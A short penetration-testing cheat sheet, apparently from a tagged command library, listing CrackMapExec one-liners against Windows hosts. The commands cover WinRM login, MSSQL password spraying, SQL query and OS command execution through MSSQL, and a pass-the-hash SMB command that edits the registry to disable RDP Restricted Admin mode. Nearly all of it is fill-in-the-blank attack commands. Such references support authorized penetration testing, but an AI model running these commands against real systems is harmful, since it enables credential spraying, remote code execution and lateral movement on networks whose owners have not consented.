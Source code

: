 ## cme - winrm-auth
#platform/linux #target/remote #port/5985 #port/5986 #protocol/winrm #cat/ATTACK/CONNECT  

```bash
cme winrm <target_ip> -u <user> -p <password>
```

## cme - mssql password spray
#platform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/BRUTEFORCE-SPRAY  

```bash
cme mssql <target_ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## cme - mssql execute query
#platform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
cme mssql <target_ip> -u <user> -p '<password>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## cme - mssql execute command
#platform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
cme mssql <target_ip> -u <user> -p '<password>' --local-auth -x <cmd|whoami>
```

## cme - disable restricted admin mode to be able to pass the hash via RDP
```bash
cme smb <target_ip> -u <user> -H <nthash> -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```